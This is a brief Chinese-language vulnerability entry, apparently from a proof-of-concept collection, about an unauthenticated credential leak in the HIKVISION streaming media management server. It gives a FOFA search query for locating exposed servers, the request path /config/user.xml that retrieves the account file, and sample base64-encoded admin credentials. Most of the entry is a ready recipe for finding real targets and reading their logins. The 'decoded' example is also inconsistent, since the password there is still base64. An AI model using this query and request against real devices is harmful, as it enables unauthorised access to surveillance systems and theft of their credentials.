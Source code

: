 # HIKVISION 流媒体管理服务器 user.xml 账号密码泄漏漏洞

## 漏洞描述

HIKVISION 流媒体管理服务器配置文件未做鉴权，攻击者通过漏洞可以获取网站账号密码

## 漏洞影响

```
HIKVISION 流媒体管理服务器
```

## FOFA

```
"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"
```

## 漏洞复现

登陆页面

![image-20220519172629739](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191726829.png)

POC

```
/config/user.xml
```

![image-20220519172714407](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191727443.png)

```
<user name="YWRtaW4=" password="MTIzNDU="/>
```

base64解密

```
<user name="admin" password="MTIzNDU="/>
```

